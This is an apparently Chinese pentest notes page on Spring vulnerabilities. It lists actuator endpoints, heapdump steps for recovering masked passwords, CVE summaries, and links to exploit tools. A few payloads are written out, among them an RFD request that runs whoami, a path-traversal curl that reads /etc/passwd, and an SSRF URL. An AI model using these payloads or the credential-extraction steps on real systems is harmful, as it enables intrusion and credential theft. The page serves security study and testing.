

# Spring

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

> 官网 : https://spring.io/

**指纹**
- `X-Application-Context:`

**相关文章**
- [spring框架的一些测试思路](https://www.cnblogs.com/cwkiller/p/12040535.html)
- [spring-boot漏洞复现](https://mp.weixin.qq.com/s/hGm0wBON_mn9wh0-DxM19A)
- [JavaWeb中常见的信息泄漏—Hystrix面板](https://mp.weixin.qq.com/s/vu7sbeEO-gnmcAUYsmcNAQ)
- [Exploiting Spring Boot Actuators](https://www.veracode.com/blog/research/exploiting-spring-boot-actuators)
- [Spring Boot Actuators配置不当导致RCE漏洞复现](https://jianfensec.com/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/Spring%20Boot%20Actuators%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%AF%BC%E8%87%B4RCE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)
- [Spring Boot Actuator 漏洞利用](https://www.jianshu.com/p/8c18f1e05c94)
- [Spring Boot Actuator H2 RCE复现](https://www.cnblogs.com/cwkiller/p/12829974.html)
- [BRING YOUR OWN SSRF – THE GATEWAY ACTUATOR](https://wya.pl/2021/12/20/bring-your-own-ssrf-the-gateway-actuator/)

**学习资源**
- [LandGrey/SpringBootVulExploit](https://github.com/LandGrey/SpringBootVulExploit) - SpringBoot 相关漏洞学习资料
- [pyn3rd/Spring-Boot-Vulnerability](https://github.com/pyn3rd/Spring-Boot-Vulnerability)

**相关工具**
- [wyzxxz/heapdump_tool](https://github.com/wyzxxz/heapdump_tool)
- [0x727/SpringBootExploit](https://github.com/0x727/SpringBootExploit) - 一款针对SpringBootEnv页面进行快速漏洞利用的工具
- [LFYSec/ActuatorExploit](https://github.com/LFYSec/ActuatorExploit)
- [abbitmask/SB-Actuator](https://github.com/rabbitmask/SB-Actuator)
- [spaceraccoon/spring-boot-actuator-h2-rce](https://github.com/spaceraccoon/spring-boot-actuator-h2-rce)
- [mpgn/Spring-Boot-Actuator-Exploit: Spring Boot Actuator (jolokia) XXE/RCE](https://github.com/mpgn/Spring-Boot-Actuator-Exploit)

---

## Spring Boot Actuators 利用

### 常见路径
```
/actuator/env
/env
/heapdump
/trace
/api-docs
/v2/api-docs
/swagger-ui.html
/api.html
/sw/swagger-ui.html
/api/swagger-ui.html
/template/swagger-ui.html
/spring-security-rest/api/swagger-ui.html
/spring-security-oauth-resource/swagger-ui.html
/mappings
/actuator/mappings
/metrics
/actuator/metrics
/beans
/actuator/beans
/configprops
/actuator/configprops
```

### heapdump信息

**相关文章**
- [获取spring boot脱敏属性明文](https://www.jianshu.com/p/ae4be3af5231)
- [使用 MAT 查找 spring heapdump 中的密码明文](https://landgrey.me/blog/16/)

**复现**

找到想要获取的属性名,访问目标网站的 /env 或 /actuator/env 接口，搜索 ****** 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。

下载 jvm heap 信息,访问目标的 /heapdump 或 /actuator/heapdump 接口，下载应用实时的 JVM 堆信息

下载的 heapdump 文件大小通常在 50M—500M 之间，有时候也可能会大于 2G

使用 [Eclipse Memory Analyzer](https://www.eclipse.org/mat/downloads.php) 工具的 OQL 语句进行查询

```
select * from java.util.Hashtable$Entry x WHERE (toString(x.key).contains("password"))
或
select * from java.util.LinkedHashMap$Entry x WHERE (toString(x.key).contains("password"))
```



---

## CVE-2016-4977 Spring Security OAuth2 远程命令执行漏洞

**描述**

Spring Security OAuth 是为 Spring 框架提供安全认证支持的一个模块.在其使用 whitelabel views 来处理错误时,由于使用了 Springs Expression Language (SpEL),攻击者在被授权的情况下可以通过构造恶意参数来远程执行命令.

**影响版本**
- spring_security_oauth 1.0.0 ~ 1.0.5
- spring_security_oauth 2.0.0 ~ 2.0.9

**相关文章**
- [Spring Security OAuth RCE (CVE-2016-4977) 漏洞分析](https://paper.seebug.org/70/)
- [漏洞复现｜CVE-2016-4977（SpringSecurityOauth RCE）](https://mp.weixin.qq.com/s/dHnD3z8BlSFvfkDZ1gVo-g)

**POC | Payload | exp**

来源: https://vulhub.org/#/environments/spring/CVE-2016-4977/
- [vulhub/spring/CVE-2016-4977/poc.py](https://github.com/vulhub/vulhub/blob/master/spring/CVE-2016-4977/poc.py)

---

## CVE-2017-4971 Spring WebFlow 远程代码执行漏洞

**描述**

Spring WebFlow 是一个适用于开发基于流程的应用程序的框架 (如购物逻辑) ,可以将流程的定义和实现流程行为的类和视图分离开来.在其 2.4.x 版本中,如果我们控制了数据绑定时的 field,将导致一个 SpEL 表达式注入漏洞,最终造成任意命令执行.

**影响版本**
- spring_web_flow 2.4.0 ~ 2.4.4

**相关文章**
- [Spring WebFlow 远程代码执行漏洞 (CVE-2017-4971) ](https://vulhub.org/#/environments/spring/CVE-2017-4971/)

---

## CVE-2017-8046 Spring Data Rest 远程命令执行漏洞

**描述**

Spring Data REST 是一个构建在 Spring Data 之上,为了帮助开发者更加容易地开发 REST 风格的 Web 服务.在 REST API 的 Patch 方法中 (实现 RFC6902) ,path 的值被传入 setValue,导致执行了 SpEL 表达式,触发远程命令执行漏洞.

**影响版本**
- spring_boot < 1.5.9
- spring_boot 2.0.0:m1 ~ 2.0.0:m5
- spring_data_rest < 2.6.9
- spring_data_rest 3.0.0 ~ 3.0.0:rc3

**相关文章**
- [Spring Data Rest 远程命令执行漏洞 (CVE-2017-8046) ](https://vulhub.org/#/environments/spring/CVE-2017-8046/)

---

## CVE-2018-1270 Spring Messaging 远程命令执行漏洞

**描述**

spring messaging 为 spring 框架提供消息支持,其上层协议是 STOMP,底层通信基于 SockJS,

在 spring messaging 中,其允许客户端订阅消息,并使用 selector 过滤消息.selector 用 SpEL 表达式编写,并使用 StandardEvaluationContext 解析,造成命令执行漏洞.

**影响版本**
- spring_framework < 4.2.9
- spring_framework 4.3.0 ~ 4.3.15
- spring_framework 5.0 ~ 5.0.5

**相关文章**
- [Spring Messaging 远程命令执行漏洞 (CVE-2018-1270) ](https://vulhub.org/#/environments/spring/CVE-2018-1270/)

---

## CVE-2018-1273 Spring Data Commons RCE 远程命令执行漏洞

**描述**

Pivotal Spring Data Commons 和 Spring Data REST 都是美国 Pivotal Software 公司的产品。Pivotal Spring Data Commons 是一个为数据访问提供基于 Spring 模型的项目。Spring Data REST 是一个建立在 Spring Data 存储库之上的用于分析应用程序的域模型并公开超媒体驱动的 HTTP 资源。

Pivotal Spring Data Commons 和 Spring Data REST 中存在安全漏洞。远程攻击者可利用该漏洞执行代码。以下产品和版本受到影响：Spring Data Commons 1.13 版本至 1.13.10 版本，2.0 版本至 2.0.5 版本及一些已不再支持的老版本；Spring Data REST 2.6 版本至 2.6.10 版本，3.0 版本至 3.0.5 版本及一些已不再支持的老版本。

**相关文章**
- [Spring Data Commons 远程命令执行漏洞 (CVE-2018-1273) ](https://vulhub.org/#/environments/spring/CVE-2018-1273/)

**影响版本**
- spring_data_commons < 1.12.10
- spring_data_commons 1.13 ~ 1.13.10
- spring_data_commons 2.0 ~ 2.0.5
- spring_data_rest < 2.5.10
- spring_data_rest 2.6 ~ 2.6.10
- spring_data_rest 3.0 ~ 3.0.5

**POC | Payload | exp**
- [wearearima/poc-cve-2018-1273](https://github.com/wearearima/poc-cve-2018-1273)
- [jas502n/cve-2018-1273](https://github.com/jas502n/cve-2018-1273)

---

## CVE-2020-5398 Spring MVC/Spring WebFlux header 导致的 RFD 攻击

**相关文章**
- [CVE-2020-5398 Spring MVC/Spring WebFlux header导致的RFD攻击风险通告](https://www.anquanke.com/post/id/197418)

**POC | Payload | exp**
```
GET /?filename=sample.sh%22%3B&contents=%23!%2Fbin%2Fbash%0Awhoami%27%20--dump-header%20- HTTP/1.1
Host: 192.168.248.129:8080
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
```

---

## CVE-2020-5410 Spring Cloud Config目录穿越漏洞

**相关文章**
- [CVE-2020-5410 Spring Cloud Config目录穿越漏洞](https://xz.aliyun.com/t/7877)

**POC | Payload | exp**
```
curl "vulnerablemachine:port/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23foo/development"
```

---

## CVE-2020-5412 Spring Cloud Netflix Hystrix Dashboard SSRF

**相关文章**
- [CVE-2020-5412分析复现](https://zhzhdoai.github.io/2020/09/01/CVE-2020-5412%E5%88%86%E6%9E%90%E5%A4%8D%E7%8E%B0/)

**POC | Payload | exp**
```
/proxy.stream?origin=http://www.baidu.com
```

---

## CVE-2021-22053 Spring Cloud Netflix Hystrix Dashboard template resolution vulnerability

**POC | Payload | exp**
- [SecCoder-Security-Lab/spring-cloud-netflix-hystrix-dashboard-cve-2021-22053](https://github.com/SecCoder-Security-Lab/spring-cloud-netflix-hystrix-dashboard-cve-2021-22053)

---

## CVE-2022-22947 Spring Cloud Gateway远程代码执行漏洞

**相关文章**
- [从SSRF 到 RCE —— 对 Spring Cloud Gateway RCE漏洞的分析](https://mp.weixin.qq.com/s/w3et7TzqZ4ctyybEWQ82HQ)
- [漏洞武器化之CVE-2022-22947 Spring Cloud Gateway表达式注入回显与内存马构造](https://mp.weixin.qq.com/s/lKKOUvWqU1Qpexus5u_3Uw)
- [Spring cloud gateway通过SPEL注入内存马](https://gv7.me/articles/2022/the-spring-cloud-gateway-inject-memshell-through-spel-expressions/)
- [Spring Cloud Function 漏洞复现](https://www.o2oxy.cn/4029.html)

**POC | Payload | exp**
- [lucksec/Spring-Cloud-Gateway-CVE-2022-22947](https://github.com/lucksec/Spring-Cloud-Gateway-CVE-2022-22947)

---

## CVE-2022-22965

**相关文章**
- [CVE-2022-22965 Spring核心框架Spring4Shell远程命令执行漏洞原理与修复方式分析](https://mp.weixin.qq.com/s/G1z7mydl4nc9SxcZjwUQwg)

**靶机环境**
```bash
docker run -d -p 8082:8080 --name springrce -it vulfocus/spring-core-rce-2022-03-29

curl http://localhost:8082
```

**POC | Payload | exp**
- [TheGejr/SpringShell](https://github.com/TheGejr/SpringShell)
- [lunasec-io/Spring4Shell-POC](https://github.com/lunasec-io/Spring4Shell-POC)
